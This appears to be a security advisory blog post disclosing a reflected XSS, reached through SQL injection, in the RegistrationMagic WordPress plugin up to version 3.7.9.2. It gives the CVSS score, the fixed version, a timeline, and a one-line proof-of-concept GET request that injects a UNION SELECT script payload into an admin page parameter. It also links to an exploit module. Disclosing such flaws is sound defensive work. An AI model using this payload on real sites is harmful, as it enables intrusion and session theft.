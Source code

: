 ```yaml
---
layout: single
title: RegistrationMagic - Custom Registration Forms <= 3.7.9.2 Reflected XSS
date: 2017-12-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - registrationmagic
  - reflected xss
excerpt: Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.
---
```

## Homepage
[https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/](https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/)

## Overview
Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.

See [This Link](https://www.rastating.com/registrationmagic-custom-registration-forms-3-7-9-2-authenticated-sql-injection) for information on the SQL injection vulnerability.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
3.7.9.2 and below

## Solution
Update to version 3.7.9.3 or higher

## Proof of Concept
```
GET /wp-admin/admin.php?page=rm_field_manage&rm_form_id=-1+union+select+1%2C2%2C3%2C%27%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%27%2Cconcat(0x54%2C0x65%2C0x78%2C0x74%2C0x62%2C0x6f%2C0x78)%2C6%2C7%2C8%2C9%2C10%2C11
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/registrationmagic\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/registrationmagic_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8976](https://wpvulndb.com/vulnerabilities/8976)

## Disclosure Timeline
* **2017-10-04**: Initial discovery
* **2017-12-10**: Released public disclosure
